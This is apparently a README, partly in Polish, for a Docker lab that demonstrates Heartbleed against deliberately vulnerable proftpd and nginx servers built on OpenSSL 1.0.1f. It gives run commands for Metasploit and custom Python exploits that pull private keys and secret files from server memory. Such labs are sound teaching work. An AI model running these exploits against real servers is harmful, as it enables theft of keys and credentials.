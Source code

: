 Design
=====

Docker images:

1. proftpd-bleed - stawia serwer proftpd (przykladowy user: testuser/bordodeszato2009)
 korzystajacy z openssl 1.0.1f
2. ftp-bystander - co chwile loguje sie na proftpd-bleed i uploaduje plik credentials.php z danymi do bazy danych i kluczem do API platnosci24
3. nginx-bleed - stawia serwer nginx korzystający z openssl 1.0.1f, ktory umożliwia ściagniecie pliku confidential.txt zalogowanemu userowi (przykladowy user: testuser/bordodes)
4. http-bystander - co chwile loguje sie na nginx-bleed i sciaga confidential.txt
5. metasploit - uzywajac metasploita wyciaga privkey serwera
6. exploit - uzywajac naszego exploita w Pythonie stara sie znalezc w dumpie plik PHP lub string "CONFIDENTIAL"

Repo + docker hub
====

https://github.com/kacperzuk/heartbleed

FIXME: dockerhub, jak juz bedzie

Usage
======

Run vulnerable FTP server
```
cd proftpd-bleed
docker build -t proftpd-bleed .
docker run -p 2121:21 -p 30000-30009:30000-30009 -it --rm --name=proftpd-bleed proftpd-bleed
```

Test connection:
```
$ openssl s_client -connect localhost:2121 -starttls ftp
$ curl -k --ftp-ssl ftp://localhost:2121/ --user testuser:bordodeszato2009
$ curl -vk --ftp-ssl ftp://localhost:2121/ --user testuser:bordodeszato2009
```

Run a fake-user that uploads credentials.php to server few times a second:
```
cd ftp-bystander
docker build -t ftp-bystander .
docker run --link proftpd-bleed:ftpd -it --rm --name=ftp-bystander ftp-bystander
```

Run exploit from metasploit (it extracts private key and dumps it into /tmp/msf4/loot):
```
cd metasploit
docker build -t metasploit .
docker run --link proftpd-bleed:ftpd --rm -it -v /tmp/msf4:/root/.msf4 metasploit /usr/local/bin/init.sh ftp-hb.rc
```

Run authtls-heartbleed.py exploit (it tries to extract PHP file, but won't succeed ever because proftpd is forking):
```
cd exploit
docker build -t exploit .
docker run --link proftpd-bleed:ftpd --rm -it exploit python3 authtls-heartbleed.py ftpd 21
```

You can stop all containers.

Run vulnerable HTTPS server
```
cd nginx-bleed
docker build -t nginx-bleed .
docker run -p 4443:443 -it --rm --name=nginx-bleed nginx-bleed
```

Test connection:
```
$ openssl s_client -connect localhost:4443
$ curl -k https://localhost:4443/confidential.txt --user testuser:bordodes
$ curl -vk https://localhost:4443/confidential.txt --user testuser:bordodes
```

Run a fake-user that uploads credentials.php to server few times a second:
```
cd http-bystander
docker build -t http-bystander .
docker run --link nginx-bleed:httpd -it --rm --name=http-bystander http-bystander
```

Run exploit from metasploit (it extracts private key):
```
cd metasploit
docker build -t metasploit .
docker run --link nginx-bleed:httpd --rm -it -v /tmp/msf4:/root/.msf4 metasploit /usr/local/bin/init.sh http-hb.rc
```

Run https-heartbleed.py exploit (nginx isn't forking, so it should find the confidential file):
```
cd exploit
docker build -t exploit .
docker run --link nginx-bleed:httpd --rm -it exploit python3 https-heartbleed.py httpd 443
```
